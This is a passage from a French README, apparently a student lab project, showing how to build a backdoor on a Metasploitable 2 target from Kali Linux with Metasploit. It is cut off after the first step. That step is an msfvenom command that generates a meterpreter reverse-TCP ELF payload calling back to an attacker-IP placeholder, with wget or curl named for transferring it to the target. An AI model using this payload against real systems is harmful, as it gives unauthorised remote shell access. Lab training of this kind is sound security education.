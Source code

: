 # Sujet-3
 Créer un backdoor sur une cible et s’y connecter depuis une machine attaquante

Ce projet démontre la création et l'utilisation d'un **backdoor** pour obtenir un accès distant à une machine cible vulnérable, à l’aide de **Kali Linux** et **Metasploit**.

---

## 🧰 Environnement utilisé

- 🎯 **Machine cible** : Metasploitable 2 (Linux)
- 💻 **Machine attaquante** : Kali Linux
- 🔧 **Outils** :
  - `msfvenom`
  - `msfconsole`
  - `python3 -m http.server` (ou autre méthode de transfert)
  - `wget` ou `curl` sur la machine cible

---

## 📌 Étapes

### 1️⃣ Générer le backdoor avec `msfvenom`

Sur Kali Linux :

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_ATTAQUANT> LPORT=4444 -f elf > backdoor.elf

